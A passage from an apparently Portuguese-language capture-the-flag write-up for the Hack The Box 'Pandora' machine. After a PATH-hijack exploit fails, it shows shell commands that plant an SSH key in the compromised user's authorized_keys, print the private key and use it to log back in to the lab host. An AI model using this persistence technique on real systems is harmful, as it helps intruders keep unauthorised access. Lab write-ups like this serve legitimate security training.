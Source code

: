 ![pathhijacknotwork](Assets/HTB-Linux-Easy-Pandora/pathhijacknotwork.png)

### 4.1.1. Não funcionou! Porquê?

Sinceramente não sei, o que sei é que pelo ssh funcionou nesta máquina... Quando vi que não funcionou, procurei outra solução. criei uma chave id_rsa só para ter melhor conexão, conectei-me via SSH e o mesmo exploit funcionou... OK. Mistérios do Hacking!

```bash
ssh-keygen
cd /home/matt/.ssh
cat id_rsa.pub > authorized_keys
cat id_rsa
# Copiar o conteúdo e colar num novo ficheiro no nosso kali
kali@kali: >     nano id_rsa
kali@kali: >     # Colar e gravar
kali@kali: >     chmod 600 id_rsa
kali@kali: >     ssh matt@10.10.11.136 -i id_rsa
```
